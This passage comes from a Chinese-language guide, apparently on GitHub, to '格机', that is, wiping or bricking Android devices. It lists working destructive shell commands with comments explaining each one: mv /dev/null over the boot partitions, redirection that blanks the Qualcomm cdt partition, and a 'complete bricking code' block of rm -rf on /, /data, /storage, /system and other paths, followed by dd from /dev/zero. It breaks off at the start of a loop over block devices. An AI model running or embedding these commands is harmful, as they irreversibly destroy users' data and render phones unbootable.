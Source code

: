 ### 5、mv
“mv”是Linux移动文件/文件夹的指令，可以移动/替换路径，替换的功能便运用到了格机上面

###### 代码示例
```
mv /dev/null /dev/block/bootdevice/by-name/boot #替换单槽boot为空
mv /dev/null /dev/block/bootdevice/by-name/boot_a #替换a槽boot为空
mv /dev/null /dev/block/bootdevice/by-name/boot_b #替换b槽boot为空
mv /dev/null /dev/block/by-name/boot #替换单槽boot为空
mv /dev/null /dev/block/by-name/boot_a #替换a槽boot为空
mv /dev/null /dev/block/by-name/boot_b #替换b槽boot为空

# 对于分区路径的解释：
#  大部分设备的分区路径是 /dev/block/by-name ，部分旧设备是 /dev/block/bootdevice/by-name
```

### 6、重定向操作符
重定向操作符(“>>”、“>”)可以让绝大部分指令，例如echo、printf、cat、chmod、chattr等指令都能够进行格机操作(通过将指令的输出内容重定向到指定路径来达到创建/修改文件的效果)

###### 代码示例
```
echo '' > /dev/block/by-name/cdt #修改高通设备参数分区为空
ls / > /dev/block/by-name/cdt #修改高通设备参数分区为根目录各个分区名称
cat /dev/null > /dev/block/by-name/cdt #修改高通设备参数分区为空
chmod 000 -R /data/adb > /dev/block/by-name/cdt #修改高通设备参数分区为空
chattr +i /data/adb > /dev/block/by-name/cdt #修改高通设备参数分区为空
```

## 完整格机代码

#### Android Shell
```

# 1、rm

rm -rf / #删除根目录下所有文件(删除系统分区文件需要支持读写，内核/内存分区无效)
rm -rf /data #删除所有用户数据(软件及数据、音视频图片、文档等)
rm -rf /storage/emulated/0 #删除用户0的所有数据(软件存储在此的数据、音视频图片、文档等)(用户id为0的是主用户(指的是多用户中的设备用户，不是系统用户组/用户)，其他则是多开用户等)
rm -rf /storage/sdcard #删除用户的所有数据(较旧安卓版本的存储目录，因为不支持多用户，所以只有一个目录)
rm -rf /storage #删除所有用户及内容提供者的数据
rm -rf /cache #删除缓存分区内文件(无任何破坏性)
rm -rf /mnt #删除所有设备的文件(包括所有用户的存储数据，persist分区，OTG设备及TF卡等)

rm -rf /system #删除system分区内的所有文件(需要支持读写)
rm -rf /vendor #删除vendor分区内的所有文件(需要支持读写)
rm -rf /product #删除product分区内的所有文件(需要支持读写)
rm -rf /odm #删除odm分区内的所有文件(需要支持读写)
rm -rf /system_ext #删除system_ext分区内的所有文件(需要支持读写)

rm -rf /sys #删除内核映射分区内文件(此操作无效)
rm -rf /proc #删除内存映射分区内文件(此操作无效)
rm -rf /dev #删除tmpfs分区内文件(此操作理论无效)


# 2、dd

dd if=/dev/zero of=路径 bs=1b count=10 #bs指一个输入块的大小，count指输入块的个数，此代码可以把指定文件修改成10b大小

# 为了节约时间，下面的代码采用循环展示

for i in $(ls /dev/block/sd*) ; do
```